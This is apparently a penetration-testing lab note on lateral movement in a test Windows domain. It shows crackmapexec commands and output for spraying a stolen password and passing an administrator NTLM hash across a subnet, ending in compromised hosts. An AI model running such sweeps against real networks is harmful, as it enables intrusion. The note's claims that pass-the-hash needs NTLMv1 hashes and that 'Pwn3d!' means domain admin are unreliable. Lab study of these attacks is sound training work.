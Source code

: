 
We are going to use the `crackmapexec` tool to perform the attack using the SMB protocol. However, this can be done via other protocols as well.

```bash
$ crackmapexec --help                                                                                                                          
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL] [--darrell] [--verbose] {ssh,smb,winrm,ldap,ftp,mssql,rdp} ...

options:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {ssh,smb,winrm,ldap,ftp,mssql,rdp}
    ssh                 own stuff using SSH
    smb                 own stuff using SMB
    winrm               own stuff using WINRM
    ldap                own stuff using LDAP
    ftp                 own stuff using FTP
    mssql               own stuff using MSSQL
    rdp                 own stuff using RDP
```

## Pass the Password

Once we have compromised the credentials of one user, we can use them to sweep the network using it.

```bash
$ crackmapexec smb 192.168.23.0/24 -u fcastle -d MARVEL.local -p Password1                                                                
SMB         192.168.23.132  445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.23.130  445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         192.168.23.131  445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.23.132  445    SPIDERMAN        [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         192.168.23.130  445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         192.168.23.131  445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```

From the `[+]` symbol, we can determine which accounts we were able to login to using the password. The `(Pwn3d!)` indicates which machines we were able to get domain admin in. 

## Pass the Hash

This attack only work with [[New Technology LAN Manager|NTLMv1]] hashes, not with v2. The command to perform the attack is the following.

```bash
$ crackmapexec smb 192.168.23.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
SMB         192.168.23.1    445    LENOVO-M75Q      [*] Windows 10.0 Build 26100 x64 (name:LENOVO-M75Q) (domain:LENOVO-M75Q) (signing:True) (SMBv1:False)
SMB         192.168.23.1    445    LENOVO-M75Q      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         192.168.23.131  445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         192.168.23.130  445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         192.168.23.132  445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         192.168.23.131  445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         192.168.23.130  445    HYDRA-DC         [-] HYDRA-DC\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         192.168.23.132  445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
```

We see that we are successful in compromising the local administrator of the same two machines. This is a common scenario that can be seen in an enterprise network as well. 

The common thing to do when creating a network is for the SysAdmin to *use the same local administrator password in every single machine* in the network. Even this is a really strong password it does not matter since we do not need to crack is. Just passing it around works.


